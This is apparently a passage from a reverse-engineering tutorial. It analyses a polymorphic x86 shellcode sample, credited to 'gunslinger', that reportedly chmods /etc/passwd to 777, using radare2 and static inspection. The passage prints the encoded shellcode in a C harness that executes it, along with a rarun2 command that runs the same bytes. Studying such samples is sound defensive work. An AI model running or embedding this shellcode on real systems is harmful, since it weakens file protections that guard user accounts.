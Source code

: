 ```
-rw-r--r-- 1 root root 1869 2010-05-08 15:53 /etc/passwd
*/

#include &lt;stdio.h&gt;

char shellcode[] =
	"\xeb\x11\x5e\x31\xc9\xb1\x27\x80\x6c\x0e"
    "\xff\x35\x80\xe9\x01\x75\xf6\xeb\x05\xe8"
    "\xea\xff\xff\xff\x20\x4a\x66\xf5\xe5\x44"
	"\x90\x66\xfe\x9b\xee\x34\x36\x02\xb5\x66"
    "\xf5\xe5\x36\x66\x10\x02\xb5\x1d\x1b\x34"
    "\x34\x34\x64\x9a\xa9\x98\x64\xa5\x96\xa8"
	"\xa8\xac\x99";

int main(void) {
    fprintf(stdout,"Length:"
        "%d\n",strlen(shellcode));
	(*(void(*)()) shellcode)();
	return 0;
}
```

Thanks to gunslinger for allowing me to use this code as an example.

__UPDATE__: Current r2 comes with 'ragg2'a tool designed to construct shellcodes and executes them. That C code can be replaced with a shellscript like this:

```
$ rarun2 -x -B eb115e31c9b127806c0eff3580e90175f6eb05e8eaffffff204a66f5e5449066fe9bee343602b566f5e536661002b51d1b343434649aa99864a596a8a8ac99 
```


The description in comments claims that the code sets the file permissions on /etc/passwd to 777, but you would not know that at a glance. What we do know is that we have an array of bytes initialised as hex, which is then cast to a function pointer and called.

Analysis with Radare2
---------------

So how do we find out what this program does? We could build it and run it, but I won't, as it could remove my home directory for all I know. Instead let us examine it statically using radare2.

First we build a binary:

```
% cc -o shellcode polymorphic_chmod_etc_passwd_777.c
polymorphic_chmod_etc_passwd_777.c: In function 'main':
polymorphic_chmod_etc_passwd_777.c:53: warning: incompatible implicit
declaration of built-in function 'strlen'
```

Next we ignore the warning, and now we load it into radare2:
```
% r2 ./shellcode
 -- In soviet russia radare debugs you!
[0x1c000764]>
```
